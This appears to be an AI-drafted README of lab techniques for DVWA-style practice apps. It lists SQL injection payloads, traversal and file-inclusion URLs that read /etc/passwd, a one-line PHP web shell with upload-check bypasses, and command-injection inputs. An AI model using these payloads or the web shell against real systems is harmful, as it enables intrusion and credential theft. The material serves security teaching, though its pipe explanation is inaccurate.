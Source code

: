 Here's a structured and detailed README.md file for this web exploitation project. I've broken down each concept into sections, provided clear headings, and used formatting to make it both informative and visually engaging.

---

````markdown
# Web Exploitation Techniques

This repository contains a collection of web exploitation techniques focused on SQL Injection, Directory Traversal, Local File Inclusion, and File Upload Vulnerabilities. The examples and commands provided here can be used for ethical hacking and testing of web application vulnerabilities in controlled environments.

## Table of Contents

1. [Broken Access Control](#broken-access-control)
2. [SQL Injection (SQLi) Examples](#sql-injection-sqli-examples)
3. [Directory Traversal](#directory-traversal)
4. [File Inclusion](#file-inclusion)
5. [File Upload Vulnerabilities](#file-upload-vulnerabilities)

---

## 1. Broken Access Control

```sh
sudo docker container ps
```
````

#### SQL Injection Example

- **Basic payload**: `' OR 1=1 #`
- **To extract passwords**: `' UNION SELECT user, password FROM users #`

**DVWA Example**:

- **Low Security**:

  - Payload: `test' OR 1=1 --`
  - Example: `GET /vulnerabilities/sqli/?id=' OR 1=1 #`

- **Medium Security**:
  - Payload: `1 OR 1=1 #`
  - To extract passwords: `1 UNION SELECT user, password FROM users #`

**SecureBank SQL Injection**:

```sql
' UNION SELECT * FROM Transactions --
' UNION SELECT 10, 'string', 'string', '02/24/2024', 'string', 1, 'string' FROM Transactions --
' UNION SELECT 10, 'string', 'string', '02/24/2024', 'string', 1, @@version FROM Transactions --
```

---

## Directory Traversal

```sh
tar -xvf apache-tomcat-8.5.99.tar.gz
./catalina.sh run
```

### Python Virtual Environment Setup

```sh
python3 -m venv venv
. venv/bin/activate
wfuzz -w wordlist http://localhost:1337/dynamic-app1/?FUZZ=test
```

- **Example to Access Secret File**:
  ```sh
  http://localhost:1337/dynamic-app1/?file=../../../secret.txt
  ```

---

## 2. File Inclusion Vulnerabilities

```sh
/app?page=main&username=<username>
```

#### Local File Inclusion (LFI) Example

- **Low Security**:

  ```sh
  http://localhost/vulnerabilities/fi/?page=../../../../../../../../../etc/passwd
  ```

- **Medium Security**:

  ```sh
  http://localhost/vulnerabilities/fi/?page=....//....//....//etc/passwd
  ```

- **Hard Security**:
  ```sh
  http://localhost/vulnerabilities/fi/?page=file4.php../../../../etc/passwd
  ```

#### PHP Filter

- **Base64 Encoding for Low Security**:

  ```sh
  http://localhost/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
  ```

  Decode the base64 string to get the `/etc/passwd` content.

---

## 4. File Upload Vulnerabilities

### Level 1 - Unrestricted File Upload

1. **Create a PHP shell script**:
   ```php
   <?php system($_REQUEST['cmd']); ?>
   ```
2. **Execute commands via URL**:
   ```url
   http://localhost:7070/uploads/level1-thumbnail.php?cmd=whoami
   ```

### Level 2 - File Extension Check Bypass

1. Intercept the upload request using a tool like Burp Suite.
2. Change `Content-Type` from `application/x-php` to `image/png`.
3. **Execute Commands**:
   ```url
   http://localhost:7070/uploads/level2-thumbnail.php?cmd=whoami
   ```

### Level 3 - Image File Check Bypass

1. **Modify Image File Header**:
   Use a PHP payload in the first part of an image file to bypass checks.
2. **Execute Commands**:
   ```php
   <?php system($_REQUEST['cmd']); ?>
   ```

---

Here's an expanded section on **Command Injection** to add to your README.md file. This section includes an explanation of command injection, example commands, and specific strategies for testing in DVWA at different security levels.

---

## 5. Command Injection

Command Injection vulnerabilities occur when an application allows an attacker to execute arbitrary commands on the server. This can lead to unauthorized access to sensitive information or system compromise. Command Injection is often found in applications that take user input and pass it to system commands without proper validation or sanitization.

### Example Command

To demonstrate a command injection vulnerability, you can execute the following command in a vulnerable application:

```bash
ping -c 1 leonardotamiano.xyz ; whoami
```

In this example, the `ping` command is executed, and the `whoami` command is executed right after it, revealing the current user.

### Docker Command Execution

You can also run commands in a Docker container:

```bash
docker run -p 80:8080 <image_name>
```

### Testing Command Injection in DVWA

**DVWA** (Damn Vulnerable Web Application) provides a safe environment to practice command injection attacks. The security levels in DVWA range from low to impossible, providing different validation challenges.

#### Low Security Level

At this level, the application has minimal security measures in place. You can enter the following command in the ping input field:

```bash
ip-address; cat /etc/passwd; whoami
```

- **Explanation**: The command above will attempt to ping the specified IP address, and if successful, will output the contents of the `/etc/passwd` file followed by the current user.

#### Medium Security Level

In this level, the application applies basic validation to the input. It might block the use of `&&` and `;`. However, you can still exploit the vulnerability using pipes:

```bash
ip | cat /etc/passwd
```

- **Explanation**: The `|` operator allows you to pipe the output of the `ip` command into `cat /etc/passwd`, bypassing the restrictions on `&&` and `;`.

#### High Security Level

At this level, the application implements more stringent security checks, including filtering of common command injection patterns. A possible approach is to check the source code for command injection vectors:

```bash
|whoami
```

- **Explanation**: Here, you use the pipe operator (`|`) without any surrounding spaces to attempt to execute `whoami` in a command chain. This can sometimes evade basic filtering.

#### Impossible Level

In this highest level of security, DVWA employs whitelisting techniques to restrict user input to a predefined list of acceptable commands. Command injection becomes extremely difficult, if not impossible, to execute at this level.

- **Explanation**: Whitelisting only allows specific commands to be executed, preventing any form of command injection.

### Important Notes

- Command Injection can lead to severe security breaches, allowing attackers to gain unauthorized access to sensitive information.
- Always validate and sanitize user inputs to prevent command injection vulnerabilities.
- Use tools like **Burp Suite** for intercepting requests and testing command injection.

### Disclaimer

These techniques are for educational purposes and should only be used in authorized environments. Unauthorized access or testing without permission is illegal.

---
